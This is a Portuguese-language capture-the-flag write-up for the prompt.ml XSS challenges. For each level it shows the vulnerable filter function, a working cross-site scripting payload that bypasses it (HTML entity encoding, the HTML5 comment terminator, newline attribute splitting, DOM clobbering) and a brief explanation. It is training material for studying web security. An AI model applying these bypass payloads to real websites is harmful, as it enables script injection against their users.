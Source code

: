 # Prompt.ml

###### Solved by @Cubano2
> This is a CTF about 

## About the Challenge  
Aqui neste write-up se encontra as respostas do site [prompt.ml](https://prompt.ml/0)  

Nesse site tem desafios de XSS que ensinam sobre a gente sobre os tipos de vulnerabilidade em aplicação web e em navegadores.
O navegador usado neste write-up foi o Microsof Edge

## level 0
```Js
function escape(input) {
    // warm up
    // script should be executed without user interaction
    return '<input type="text" value="' + input + '">';
}        
```
O level 0 é bem tranquilo, com uma simples HTML injection consguimos passar dele.
level 0 ```"><script>prompt(1)</script>```

## level 1
```javascript
function escape(input) {
    // tags stripping mechanism from ExtJS library
    // Ext.util.Format.stripTags
    var stripTagsRE = /<\/?[^>]+>/gi;
    input = input.replace(stripTagsRE, '');

    return '<article>' + input + '</article>';
}        
```
level 1 ```<img src=1 onerror='prompt(1)'```

O level 1 coloca um nível de dificuldade a mais fazendo a gente burlar um regex que tem no código. A regex `/<\/?[^>]+>/gi` procura por `<…>` ou `</…>` e remove tudo entre os colchetes. Nisso ela espera um `>` no final. Contornando isso conseguimos passar.

## level 2
```javascript
 Text Viewer
function escape(input) {
    //                      v-- frowny face
    input = input.replace(/[=(]/g, '');

    // ok seriously, disallows equal signs and open parenthesis
    return input;
}        
```
level 2 ```<svg><script>prompt&#40;1)</script>```

Para contornar o filtro que remove `=` e `()`, usamos a entidade HTML ```&#40;``` no lugar do parêntese e evitamos o sinal de igual.

## level 3
```javascript
function escape(input) {
    // filter potential comment end delimiters
    input = input.replace(/->/g, '_');

    // comment the input to avoid script execution
    return '<!-- ' + input + ' -->';
}            
```
Level 3 ```--!><svg/onload=prompt(1)```

Para contornar o filtro (que remove ->), usamos o fechamento alternativo de comentário --!> definido no HTML5, fechamos o comentário e em seguida executamos o vetor SVG.


## level 5
```javascript
function escape(input) {
    // apply strict filter rules of level 0
    // filter ">" and event handlers
    input = input.replace(/>|on.+?=|focus/gi, '_');

    return '<input value="' + input + '" type="text">';
}                   
```
Level 5 ```"type=image src onerror
="prompt(1) ```


Neste nivel para contornar o filtro (que remove `>`, qualquer `on…=` e a palavra `focus`), exploramos o fato de que quebras de linha também separam atributos. Assim, escapamos do atributo atual e injetamos um handler


## level 6
```javascript
function escape(input) {
    // let's do a post redirection
    try {
        // pass in formURL#formDataJSON
        // e.g. http://httpbin.org/post#{"name":"Matt"}
        var segments = input.split('#');
        var formURL = segments[0];
        var formData = JSON.parse(segments[1]);

        var form = document.createElement('form');
        form.action = formURL;
        form.method = 'post';

        for (var i in formData) {
            var input = form.appendChild(document.createElement('input'));
            input.name = i;
            input.setAttribute('value', formData[i]);
        }

        return form.outerHTML + '                         \n\
<script>                                                  \n\
    // forbid javascript: or vbscript: and data: stuff    \n\
    if (!/script:|data:/i.test(document.forms[0].action)) \n\
        document.forms[0].submit();                       \n\
    else                                                  \n\
        document.write("Action forbidden.")               \n\
</script>                                                 \n\
        ';
    } catch (e) {
        return 'Invalid form data.';
    }
}                         
```
Level 6  ```javascript:prompt(1)#{"action":1}```

Para burlar o filtro que bloqueia javascript:, vbscript: e URIs data:, exploramos o DOM clobbering criando um <input name="action"> via JSON após o #, de modo que document.forms[0].action passa no teste e dispara nosso payload.

